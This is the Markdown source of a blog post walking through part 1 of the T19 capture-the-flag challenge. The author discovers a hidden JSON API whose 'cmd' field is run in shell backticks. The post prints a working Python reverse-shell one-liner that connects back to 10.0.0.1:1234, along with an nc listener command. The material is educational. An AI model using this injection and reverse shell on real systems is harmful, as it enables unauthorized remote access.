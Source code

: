 ```yaml
---
layout: post
title: T19 Challenge (Part 1)
---
```


The T19 Challenge was hosted by [Twistlock Labs](https://www.twistlock.com/labs/) last week on [http://t19challenge.com/](http://t19challenge.com/).

> Welcome. 
>
> Our company developed a unique Linux binary called "cat". We recently discovered that our competitors from the Antivirus company VirusExpress are blocking our cat binary. It is now signed as a **virus**. Word is that you are a badass security researcher. We need you to **infilitrate their server** and **empty their database**.

There are 3 parts of varying difficulty to this challenge. The vulnerabilities may look simple, but are really challenging to exploit.

In summary, we are provided with a virus scanning [site](http://virus.express/), which we must exploit a **command injection vulnerability** to gain access to the server. After which, we could escalate priviledges by exploiting a **buffer overflow vulnerability**, in a setuid binary that acts as a client to the virus database. Finally, we gain root access by exploiting a **buffer overflow vulnerability** in the database service ran by the root user.

This post is about the getting the first flag of the challenge, by exploiting a command injection vulnerability in the virus uploading API. 

If you would like to skip this part, here are the links to [part 2][part2] and [part 3][part3].

### Recon
The target, [virus.express](http://virus.express/), has a simple interface, allowing a user to upload a binary and check whether it is a virus.

![website][website-screenshot]

![danger][danger-screenshot]

Viewing the source, I found an interesting `TODO` left by the devs.

```html
2. Add documentation on the experimental JSON API on /api
```

Opening [virus.express/api](http://virus.express/api) in the browser gives the following response.

```json
{"success":false,"response":"Please deliver something next time."}
```

### Exploring the API
To ease poking around with the API, I intercepted the request with Burp. Through trial and error, by changing from `GET` to `POST` request, adding a `Content-Type: application/json` header, and sending a dummy `{"hello": "world"}` as data, the following error page is returned.

![error][error-screenshot]

It looks like the program errored out at the line

`response = {:success=>true, :response=>(is_virus? body[:file][:hash], body[:file][:name], body[:cmd])}`

As this was ruby syntax, it looks like we are expected a JSON object with fields `cmd` and `file`, where `file` is another object consisting of fields `hash` and `name`. So, we can modify our data to be 

```json
{
    "cmd": "ls", 
    "file": {
        "hash": "hello", 
        "name": "hello"
    }
}
```

![hash-error][hash-error-screenshot]

Another error. But this time, it looks like really good information. In particular, we can see the following line

`` `#{cmd} "#{encoded}" "#{filename}"` ``

In ruby, putting backticks around a string is to execute it as a shell command. This means we got arbitrary code execution!

But before that, the error needs to resolved so that we can execute what we want. It turns out that the `hash` is being passed into `Z85rb.encode()`, which expects a string with length of a multiple of 4. A simple fix is to set both `hash` and `name` as empty strings, so that they do not interfere with our `cmd`.

### Getting a reverse shell
Interacting with the server by constantly changing the `cmd` field is not a good experience. A more convenient method is to spawn a reverse shell.

Unfortunately, as with usual production machines, this one does not have `netcat` installed, which is used most often when trying to create a reverse shell. Nevertheless, we can go through this [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and try the commands one by one.

In the end, the `python` one worked out for me.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just need to run `nc -lvp 8000` on a VPS, send to /api `cmd` set as the command above, and I get a shell to the server as user `rubyist`.

<script id="asciicast-lE2IirQBegq5Wb3ZgbtlU3zv3" src="https://asciinema.org/a/lE2IirQBegq5Wb3ZgbtlU3zv3.js" async></script>

---

Actually, I'm not sure if it is even right to say that there is a command injection vulnerability, since we don't need to tweak the input to execute our command.

If there is anything unclear, feel free to leave a comment below.

[part2]:/t19-challenge-2.html
[part3]:/t19-challenge-3.html
[website-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/website.png
[danger-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/danger.png
[error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/error.png
[hash-error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/hash-error.png
